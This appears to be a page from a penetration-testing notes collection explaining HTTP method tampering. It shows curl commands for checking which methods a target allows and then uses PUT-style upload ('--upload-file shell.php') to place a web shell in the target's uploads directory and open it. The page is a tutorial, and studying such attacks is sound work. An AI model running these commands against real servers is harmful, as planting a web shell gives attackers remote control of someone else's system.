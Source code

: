 # 7.1.1 HTTP Method Tampering

## HTTP Method Tampering

HTTP Method Tampering is a type of security vulnerability that can be exploited in web apps, that occurs when an attacker manipulates the HTTP request method used to  interact with a web server.

HTTP Request typically use methods like GET, POST, PUT, DELETE, OPTIONS, etc to perform specific actions on a web application.

### Examples of HTTP Method Tampering

Various situation and examples can be:

* Changing a GET request to a DELETE request: if the application doesn't properly validate the method used, it might inadvertently delete data when we try to retrieving it.
* Changing a POST request to a GET: it could expose sensitive data that should only be accessible via a POST request.

We can do it using Burp Repeater or Curl utility as below:

See allow method information -> `curl -v <Target_URL>`

And specify request options using -X (default is GET) -> `curl -v -X OPTIONS <Target_URL>`

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Good new, more methods are allowed, then we can upload everything

`curl <Target_URL>/uploads/ --upload-file shell.php`

and open shell.php file uploaded into \<Target\_URL>/uploads/
